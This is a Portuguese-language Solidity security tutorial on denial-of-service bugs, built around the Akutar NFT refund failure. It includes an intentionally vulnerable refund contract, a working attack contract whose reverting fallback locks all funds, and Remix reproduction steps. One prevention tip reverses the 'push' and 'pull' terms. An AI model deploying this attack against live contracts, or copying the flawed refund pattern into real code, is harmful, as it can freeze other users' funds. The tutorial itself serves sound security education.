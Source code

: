 ```yaml
---
title: S09. Negando Serviço
tags:
  - solidity
  - segurança
  - fallback
---
```


# Segurança de Contratos Inteligentes, WTF Solidity: S09. Negando Serviço

Recentemente, eu tenho revisado meus conhecimentos em solidity para consolidar detalhes sobre a linguagem e criar um guia "WTF Solidity: Introdução Básica" para pessoas iniciantes (esse guia não é para pessoas que já são especialistas em programação). Serão lançadas de 1 a 3 lições por semana.

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science)｜[@WTFAcademy_](https://twitter.com/WTFAcademy_)

Comunidade: [Discord](https://discord.gg/5akcruXrsk)｜[Grupo WeChat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[Website wtf.academy](https://wtf.academy)

Todo o código e os tutoriais estão disponíveis no GitHub: [github.com/AmazingAng/WTFSolidity](https://github.com/AmazingAng/WTF-Solidity)

---

Nesta lição, vamos discutir a vulnerabilidade de negação de serviço (DoS) em contratos inteligentes e abordar maneiras de evitar esse tipo de problema. O projeto de NFTs Akutar perdeu 11.539 ETH, o que correspondia a aproximadamente 34 milhões de dólares na época, devido a um bug de DoS.

## DoS

No contexto da Web 2.0, um ataque de negação de serviço (DoS) ocorre quando um servidor é interrompido e não consegue fornecer serviços aos usuários legítimos devido ao envio de grande volume de lixo de informações ou interferências de informações pelo atacante. No Web3, uma DoS em contrato inteligente ocorre quando uma vulnerabilidade é explorada de forma que o contrato não consiga funcionar corretamente.

Em abril de 2022, um projeto de NFT chamado Akutar utilizou um leilão holandês para distribuição de tokens e arrecadou 11.539,5 ETH, tornando-se um grande sucesso. Anteriormente, os participantes da comunidade que possuíam o "Pass" desse projeto deveriam receber 0,5 ETH de reembolso. No entanto, quando eles tentaram processar os reembolsos, descobriram que o contrato inteligente tinha um bug de negação de serviço e todos os fundos ficaram presos. O contrato do Akutar tinha uma vulnerabilidade de DoS.

![](./img/S09-1.png)

## Exemplo de Vulnerabilidade

Abaixo, vamos examinar um contrato chamado `DoSGame` que representa uma versão simplificada do contrato do Akutar. A lógica desse contrato é bastante simples: quando o jogo começa, os jogadores fazem chamadas à função `deposit()` para depositar seus tokens ETH e o contrato registra seus endereços e saldos correspondentes. Quando o jogo termina, a função `refund()` é chamada para reembolsar os jogadores com seus ETH.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

// Jogo com vulnerabilidade de DoS - os jogadores fazem depósitos e, quando o jogo termina, recebem seus reembolsos
contract DoSGame {
    bool public refundFinished;
    mapping(address => uint256) public balanceOf;
    address[] public players;

    // Todos os jogadores fazem depósitos no contrato
    function deposit() external payable {
        require(!refundFinished, "Game Over");
        require(msg.value > 0, "Please donate ETH");
        // Registra o saldo do jogador
        balanceOf[msg.sender] = msg.value;
        // Registra os endereços dos jogadores
        players.push(msg.sender);
    }

    // O jogo termina, os reembolsos começam a ser processados sequencialmente
    function refund() external {
        require(!refundFinished, "Game Over");
        uint256 pLength = players.length;
        // Reembolsa todos os jogadores em um loop
        for(uint256 i; i < pLength; i++){
            address player = players[i];
            uint256 refundETH = balanceOf[player];
            (bool success, ) = player.call{value: refundETH}("");
            require(success, "Refund Fail!");
            balanceOf[player] = 0;
        }
        refundFinished = true;
    }

    function balance() external view returns(uint256){
        return address(this).balance;
    }
}
```

O bug nesse contrato está na função `refund()`. Quando os reembolsos são processados sequencialmente em um loop e a função `call` é utilizada para transferir os ETHs de volta para os jogadores, isso permite que um endereço malicioso execute algum código mal-intencionado em seu contrato durante esse processo.

```
(bool success, ) = player.call{value: refundETH}("");
```

Em seguida, escrevemos um contrato de ataque em que a função `attack()` permite que o endereço malicioso faça um depósito e participe do jogo. A função `fallback()` é uma função de retorno que rejeita todas as transações enviadas para o contrato, atacando a vulnerabilidade de DoS do contrato `DoSGame`. Isso ocorre porque a sequência de reembolsos não pode ser executada corretamente e os fundos ficarão presos no contrato, assim como os mais de 10.000 ETHs no contrato Akutar.

```solidity
contract Attack {
    // Ataque DoS quando os reembolsos são processados
    fallback() external payable{
        revert("DoS Attack!");
    }

    // Participa do jogo DoS e faz um depósito
    function attack(address gameAddr) external payable {
        DoSGame dos = DoSGame(gameAddr);
        dos.deposit{value: msg.value}();
    }
}
```

## Reprodução no Remix

**1.** Implante o contrato `DoSGame`.
**2.** Chame a função `deposit()` do contrato `DoSGame` para depositar e participar do jogo.
![](./img/S09-2.png)
**3.** Neste ponto, se você chamar a função `refund()` do contrato `DoSGame`, você receberá um reembolso normalmente.
！[](./img/S09-3.jpg)
**4.** Implante novamente o contrato `DoSGame` e implante o contrato `Attack`.
**5.** Chame a função `attack()` do contrato `Attack` para fazer um depósito e participar do jogo.
！[](./img/S09-4.jpg)
**6.** Chame a função `refund()` do contrato `DoSGame` para receber um reembolso e descubra que a transação não é bem sucedida, pois o ataque teve êxito.
！[](./img/S09-5.jpg)

## Medidas Preventivas

Vários erros lógicos podem levar a um DoS em um contrato inteligente, portanto, os desenvolvedores devem ter muito cuidado ao escrever contratos. Abaixo estão algumas áreas que requerem especial atenção:

1. Falhas na chamada de funções de contratos externos (por exemplo, `call`) não devem bloquear recursos importantes. Por exemplo, é possível remover a linha `require(success, "Refund Fail!");` do contrato que possui a falha para que o reembolso se prossiga mesmo se uma única transação falhar.
2. O contrato não deve se auto-destruir inesperadamente.
3. O contrato não deve entrar em loops infinitos.
4. Os parâmetros das funções `require` e `assert` devem ser definidos corretamente.
5. No processo de reembolso, é recomendável permitir que os usuários retirem os fundos por conta própria (push), em vez de realizar um envio em massa de fundos (pull).
6. Verifique se as funções de retorno (fallback) não afetam o funcionamento normal do contrato.
7. Certifique-se de que as principais funcionalidades do contrato ainda possam ser executadas mesmo que o envolvimento dos participantes (como o `owner`) nunca aconteça.

## Conclusão

Nesta lição, falamos sobre a vulnerabilidade de negação de serviço em contratos inteligentes. O projeto Akutar perdeu mais de 10.000 ETHs devido a essa vulnerabilidade. Vários erros lógicos podem levar a DoS, então os desenvolvedores precisam ter muito cuidado ao escrever contratos inteligentes, como permitir que os usuários cliem os seus próprios reembolsos ao invés de realizar um envio em massa de fundos para eles.

<!-- This file was translated using AI by repo_ai_translate. For more information, visit https://github.com/marcelojsilva/repo_ai_translate -->
